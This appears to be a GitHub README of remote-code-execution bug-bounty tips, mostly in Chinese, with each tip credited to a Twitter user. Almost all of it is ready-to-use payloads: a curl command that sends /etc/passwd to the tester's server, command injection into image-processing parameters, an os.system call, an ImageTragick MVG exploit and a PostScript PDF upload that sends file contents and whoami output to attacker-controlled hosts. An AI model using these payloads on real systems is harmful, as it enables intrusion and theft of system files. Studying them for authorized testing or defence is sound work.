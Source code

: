 # RCE BugBountyTips

### Remote Code Execution (RCE):

1.[@rvismit](https://twitter.com/rvismit/status/1090125125461200896)：如果服务器仅允许GET和POST方法，可以尝试添加“X-HTTP-Method -Override: PUT"以通过PUT方法实现RCE。

2.[@Random_Robbie](https://twitter.com/Random_Robbie/status/992174798699679751)：Blind RCE - Grabs /etc/passwd 并通过POST将其转储到您的netcat.

```bash
`cat /etc/passwd | curl -X POST -d @- http://yourip:yourport/`
```

3.@prateek_0490:找到一个正在处理图像的端点？试一下:

```bash
> request=input&&id , request=input|id , request=input`id` or you can even setup a NC & try request=input&&http://wgetyourserver.com:port & so on.
```

4.@LooseSecurity:如果您能够在服务器上运行任意Python代码，请尝试运行以下命令获取RCE,用任意数量的Shell命令替换"ls"：

```python
import os;os.system("ls");
```

5.@TakSec:Recon to RCE:

```bash
Google "upload" site:”target" -> upload form -> ImageTragick MVG -> RCE
PoC:
push graphic-context viewbox 0 0 200 200 fill 'url(https://example.123 "|curl -d "@/etc/passwd" -X POST https://xxx.burpcollaborator.net/test1")' pop graphic-context
```

6.@huntmost:RCE on PDF upload:

```bash
Content-Disposition: form-data; name="fileToUpload"; filename="pwn.pdf"
Content-Type: application/pdf
%!PS
currentdevice null true mark /OutputICCProfile (%pipe%curl http://attacker.com/?a=$(whoami|base64) )
.putdeviceparams
quit
```